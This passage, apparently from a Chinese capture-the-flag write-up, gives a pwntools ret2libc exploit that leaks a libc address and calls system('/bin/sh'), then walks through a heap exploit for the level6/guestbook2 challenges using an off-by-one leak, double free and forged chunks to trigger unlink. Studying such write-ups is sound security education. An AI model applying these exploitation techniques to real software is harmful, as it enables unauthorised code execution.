 和 `level3` 几乎相同，依然是 ret2libc。

```python
payload = flat('a'*(0x88+4),elf.plt['write'],elf.sym['main'],1,elf.got['read'],4)
sl(payload)
read =uu64(r(4))
leak('read',read)
system,binsh = ret2libc(read,'read')
payload = flat('a'*(0x88+4),system,'a'*4,binsh)
sl(payload)
```

### level6 & level6_x64 & guestbook2

三题比较类似，以 64 位为例。[参考文章](https://www.anquanke.com/post/id/162882)。

首先本题存在一个索引表，结构大致是这样：

```
| ...        |
 ------------
| max_size   |
 ------------
| exist_num  |
 ------------
| allocated0 |
 ------------
| size_user0 |
 ------------
| ptr_heap0  |
 ------------
| allocated1 |
 ------------
| size_user1 |
 ------------
| ptr_heap1  |
 ------------
| ...        |
```

- `max_size`：最大记录数
- `exist_num`：当前记录数
- `chunk0`:
  - `allocated`：是否是被分配的
  - `size_user`：用户数据长度
  - `ptr_heap`：返回给用户的指针

题目主要漏洞有 2 处，首先是新建记录时存在 off-by-one，可以多读入一个字节，从而泄露后面相邻区域的内容。第二处漏洞就是常见的 `free` 后没有置空指针，造成了 `double free`。

首先泄露 libc 地址和堆地址。创建 4 个小 chunk，删掉不相邻的 2 个（防止合并）。由于题目限制最小分配 0x80B，必定会先进入 unsorted bin；然后拿回来并写满 `fd` 的位置，从而打印出 `bk`。`chunk0` 的 `bk` 指向 `chunk2`，相隔一个索引表（0x1820B）和两个正常 chunk(2*0x90B)，因此可以算出堆地址。`chunk2` 的 `bk` 指向 `main_arena+88`，从而泄露 libc。

随后伪造堆块，`heap+0x30` 是 `chunk0` 的 `ptr_heap` 的位置，`-0x18` 和 `-0x10` 分别指向其 `fd` 和 `bk`。随后继续伪造 `chunk1` 方便后续触发 `unlink(chunk0)`，再伪造 `chunk2` 防止与 top chunk 合并。删除 `chunk1`，即可导致 `unlink(chunk0)`。
